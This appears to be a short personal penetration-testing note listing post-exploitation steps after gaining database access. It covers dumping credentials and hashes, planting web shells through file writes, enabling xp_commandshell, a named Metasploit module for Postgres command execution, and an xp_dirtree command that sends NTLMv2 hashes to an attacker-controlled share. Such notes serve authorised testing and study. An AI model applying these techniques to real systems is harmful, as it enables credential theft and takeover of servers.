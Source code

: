 # got access to databases - general SQL
- dump creds / hashes
- dump hashes of database users `mysql.users`
- command execution
  - write web shell directly into outfile - may return SQL error but still write file
  - code execution built into database or with modules
  - write config backups with web shells embedded in data
  - edit user hashes authenticate for auth RCE
  - servers running as root
  - mysql -> raptor udf2 command exec
    - mysql GRANT OPTION -> grant file permissions
  - mssql -> enable `xp_commandshell`
  - Postgres 9.3+ auth RCE -> msf `multi/postgres/postgres_copy_from_program_cmd_exec`
- read files
- check if DBA -> enable access to files / commands
- target DBA or privileged user for file write or RCE
- see what other databases are accessable
- CMS database looking for foothold -> possible extra enumeration
  - installed plugins
  - data -> hidden posts, secrets, creds in messages
- mssql + SQLi
  - stacked queries common
  - `xp_commandshell`
  - capture NTLMv2 hashes `EXEC xp_dirtree '\\attacker.ip\share'`

` zet/20221003151204/README.md `

# Related


Tags:

    

